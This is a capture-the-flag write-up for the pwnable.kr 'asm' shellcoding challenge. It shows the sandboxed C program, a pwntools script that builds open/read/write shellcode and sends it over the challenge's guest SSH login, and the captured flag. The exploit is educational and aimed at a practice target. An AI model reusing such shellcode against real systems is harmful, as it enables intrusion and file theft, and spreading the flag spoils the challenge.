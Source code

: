 ```yaml
---
title: "Pwnable.kr - asm"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "This challenge is asking for x64 shellcode to read the flag file, it's using some `seccomp rules` to limit us to only use `open/read/write/exit` syscalls (so we cannot spawn a shell).
We can write some assembly (painful) or we can use pwntools..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy! I think I know how to make shellcodes



```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

This challenge is asking for x64 shellcode to read the flag file, it's using some `seccomp rules` to limit us to only use `open/read/write/exit` syscalls (so we cannot spawn a shell).

We can write some assembly (painful) or we can use pwntools to do the work for us :)

We need to open the flag file, read it's content then write this content to stdout and exit, simple as that.

The given assembly `stub` that will run first is just zeroing out all the registers.

# Solution:

```python
# solve.py

from pwn import *

context(arch='amd64', os='linux')

file_name = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
length = 50

shellcode = asm(
	shellcraft.open(file_name) +
	shellcraft.read('rax', 'rsp', length) +
	shellcraft.write(1, 'rsp', length) +
	shellcraft.exit(0))

sh = ssh('asm', 'pwnable.kr', password='guest', port=2222)
p = sh.remote('0', 9026)

print(p.recv())
p.sendline(shellcode)
print(p.recv())
```

```
$ python solve.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Connecting to 0:9026 via SSH to pwnable.kr: Done
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: 
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file
```

Flag: `Mak1ng_shelLcodE_i5_veRy_eaSy`